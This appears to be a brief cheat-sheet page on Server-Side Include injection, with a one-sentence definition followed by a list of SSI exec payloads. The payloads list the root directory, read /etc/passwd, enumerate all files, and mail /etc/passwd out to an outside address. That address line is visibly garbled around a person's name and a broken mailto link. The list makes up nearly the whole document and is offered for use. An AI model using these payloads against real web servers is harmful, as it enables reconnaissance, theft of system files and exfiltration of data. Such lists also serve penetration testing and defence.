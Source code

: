 <h1>What is SSi Injection?</h1>
<P>SSI injection (Server-side Include) is a server-side exploit that lets an attacker send code into an application to be executed later, locally, by the web server.</p>

**Payloads :**
```
<!--#exec cmd="/bin/ls /" --><br/>
<!--#exec cmd="cat /etc/passwd" --><br/>
<!--#exec cmd="find / -name *.* -print" --><br/>
<!--#exec cmd="mail Florian Roth @4nc4p <mailto:Florian Roth @4nc4p> < cat /etc/passwd" --><br/>
```
